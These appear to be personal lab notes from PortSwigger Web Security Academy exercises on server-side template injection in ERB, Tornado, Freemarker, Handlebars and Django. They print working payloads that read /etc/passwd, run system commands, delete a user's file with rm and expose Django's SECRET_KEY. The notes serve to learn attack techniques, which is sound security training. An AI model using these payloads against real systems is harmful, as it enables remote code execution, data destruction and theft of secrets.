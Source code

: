 # Encounters
https://portswigger.net/research/server-side-template-injection

# Basic SSTI
Delete user's file. 
- Find the SSTI 
```
https://0a0000c703bc23e380d30d40003b00bf.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
```
This is reflected in the page. 
- Tried a few payloads before finding one for ERB;
```
${ 7 * 7}
${{<%[%'"}}%\.
<%= 7*7 %> - works
'<%= File.read("/etc/passwd") %>' - works
```
With the two Ruby ones working we're definitely using ERB. 
```
<%=%20system("ls%20/home/")%20%>
<%=%20system("ls%20/home/carlos")%20%>
<%=%20system("rm%20/home/carlos/morale.txt")%20%>
```

# Basic server-side template injection (code context)
Delete morale.txt
## Observations
- Can post comments to a blog. 
- Can change my username displayed in my comments from /my-account:
```
blog-post-author-display=user.first_name&csrf=Ju0D0cmlYZs0zwlQOf5648sn0ugDlaRZ
```
- Changed the value from user.nickname to user.email_address then tried to submit another comment and get this error - 
```
Internal Server Error
Traceback (most recent call last): File "<string>", line 16, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 348, in generate return execute() File "<string>.generated.py", line 4, in _tt_execute AttributeError: User instance has no attribute 'email_address'
```
So, that's our injection point. And from the error we can see it is in tornado. 
- Payloads:
```
{{7*7}}
```
Getting execution:
```
blog-post-author-display=user.nickname}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')}}&csrf=Ju0D0cmlYZs0zwlQOf5648sn0ugDlaRZ
```

# Server-side template injection using documentation
## Observations
- You can log in and edit templates as admin. 
- Freemarker templates 
```
${"freemarker.template.utility.Execute"?new()("id")}
${7*&}
```

# Server-side template injection in an unknown language with a documented exploit
## Observations
- No real interactivity. 
- Fuzzed productId and it didn't have anything. 
- The first product has an error message because its out of stock and the message gets reflected into the page. 
- Inducing an error reveals handlebars. 


# Information disclosure via user-supplied objects
## Observations
- Can login and edit templates
- Caused an error and found its django. Using payloads all the things - debug shows there is a secret key. 
```
{% debug %}
```
```
{{settings.SECRET_KEY}}
```
